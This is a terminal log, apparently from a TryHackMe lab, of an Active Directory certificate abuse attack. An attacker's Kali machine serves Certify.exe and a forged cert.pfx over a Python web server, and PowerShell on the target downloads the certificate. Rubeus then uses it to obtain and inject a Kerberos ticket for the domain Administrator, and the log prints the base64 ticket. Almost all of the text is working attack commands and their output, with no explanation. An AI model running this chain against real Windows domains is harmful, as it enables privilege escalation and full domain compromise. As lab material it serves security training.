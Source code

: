 ```
 cert.pem                           README.md             SharpDump.exe
 cert.pfx  

┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.221.143 - - [16/Feb/2023 17:16:23] "GET /Certify.exe HTTP/1.1" 200 -

PS C:\THMTools> iwr http://10.8.19.103:1337/cert.pfx -outfile C:\THMTools\cert.pfx

┌──(witty㉿kali)-[~/Downloads/Ghostpack-CompiledBinaries]
└─$ python3 -m http.server 1337
Serving HTTP on 0.0.0.0 port 1337 (http://0.0.0.0:1337/) ...
10.10.221.143 - - [16/Feb/2023 17:16:23] "GET /Certify.exe HTTP/1.1" 200 -
10.10.221.143 - - [16/Feb/2023 17:25:53] "GET /cert.pfx HTTP/1.1" 200 -

PS C:\THMTools> .\Rubeus.exe asktgt /user:Administrator /password:god /certificate:cert.pfx /outfile:ticket /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.0.0

[*] Action: Ask TGT

[*] Using PKINIT with etype rc4_hmac and subject: CN=Try THM. Hack Me, CN=Users, DC=lunar, DC=eruca, DC=com
[*] Building AS-REQ (w/ PKINIT preauth) for: 'lunar.eruca.com\Administrator'
[+] TGT request successful!
[*] base64(ticket.kirbi):

      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

```